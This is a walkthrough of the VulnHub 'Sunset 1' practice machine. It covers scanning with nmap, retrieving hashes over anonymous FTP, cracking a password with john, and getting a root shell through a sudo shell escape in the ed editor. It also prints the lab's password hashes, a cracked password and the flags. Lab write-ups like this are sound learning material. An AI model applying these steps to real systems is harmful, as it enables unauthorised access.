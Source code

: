 # Sunset 1

https://www.vulnhub.com/entry/sunset-1,339/

Second vulnhub vm. The next after fun with flags on the site is the latest in the sunset series, so I decided to skip to the beginning and do them in order. Sunset 1 came out in the middle of last year.

## netdiscover to find the vm, nmap

Unlike fun with flags, the sunset vms used normal network-assigned ips, so I needed to find where it was first. A bit tricky, since I run a lot of things on my home network, and the machine didn't leap out at me. I got the ips and then started nmapping them to find the target.

Ultimately the machine netdiscover identified as `PCS Systemtechnik GmbH` was the correct one. A `nmap -p-` identified only 21 and 22 open, with an intense scan revealing:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.153:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
```

## Anonymous FTP backup

Connecting to the FTP endpoint, I found a file `backup`. Its contents look like the contents of a shadow file:

```
CREDENTIALS:                                                                                                                                                                                                       
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.                                                                                                                  
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/                                                                                                              
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0                                                                                                                     
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/  
```

## Cracking sunset

I opened the above file and deleted all but sunset's hash, then used john with rockyou.txt to get the password `cheer14`. This worked when ssh'ing onto the machine, and in their home dir was `user.txt` containing `5b5b8e9b01ef27a1cc0a2d5fa87d7190`, which meant nothing to me (might be a red herring).

Running `sudo -l` revealed sunset also had access to /usr/bin/ed, an ancient text editor (one line at a time) in linux. This tool runs as root (when run with sudo) and can execute commands. So, as sunset, `sudo /usr/bin/ed`, then use `!/bin/sh` to start a shell. Finally, cd to `/root` and cat the flag.

/root/flag.txt: `25d7ce0ee3cbf71efbac61f85d0c14fe`

Notably I learned more about sudo here. Initially I ran ed without sudo, and while it worked I was stuck with the sunset user, not root. I thought the sudo -l meant the things that ran as root always, so I was confused. Doing some research, I identified that sudo -l just showed things I could run as root with sudo without needing to be in the sudoers group, or require a password. Educational.